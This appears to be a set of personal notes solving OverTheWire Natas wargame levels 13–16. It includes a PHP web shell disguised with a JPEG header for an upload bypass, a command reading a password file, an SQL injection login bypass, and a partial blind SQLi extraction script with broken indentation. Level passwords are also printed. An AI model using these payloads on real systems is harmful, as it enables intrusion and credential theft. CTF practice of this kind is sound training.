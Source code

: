 ```shell
upload file trigger .php -> whell shell
RCE cat cat /etc/natas_webpass/natas13;
natas13
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```
## Natas14
```shell
bypass file header image 
echo -e "\xFF\xD8\xFF\xE0<?php system(\$_GET['cmd']); ?>" > image.php
natas14
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```
## Natas15
```shell
username=1"+OR+"1"+%3d+"1"+%23&password=a
natas15
SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
```
## Natas16
- Boolean SQLi
```shell
- TRUE = This user exists.
- FASLE = This user doesn't exist.
```
- Step1 findstr Length
- Step2 BF with Binary Search
```python
import requests

burp0_url = "http://natas15.natas.labs.overthewire.org/index.php"
burp0_headers = {
    "Authorization": "Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
}

def sqli(pos, mid):
    payload = f'natas16" AND ascii(substr(password,{pos},1))<={mid}#'
    burp0_data = {"username": payload}
    r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    return "This user exists." in r.text
    
def find_pass_length():
	for i in range(1, 100):
	    burp0_data = {"username": f'natas16" AND length(password)={i}#'}
        r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
        if "This user exists." in r.text:
            print(f"✅ Password Length: {i}")
            return i
    return 32

def get_char(pos):
    lo, hi = 32, 128
    while lo < hi:
        mid = (lo + hi) // 2
        if sqli(pos, mid):
            hi = mid
        else:
            lo = mid + 1
    return chr(lo)
    
```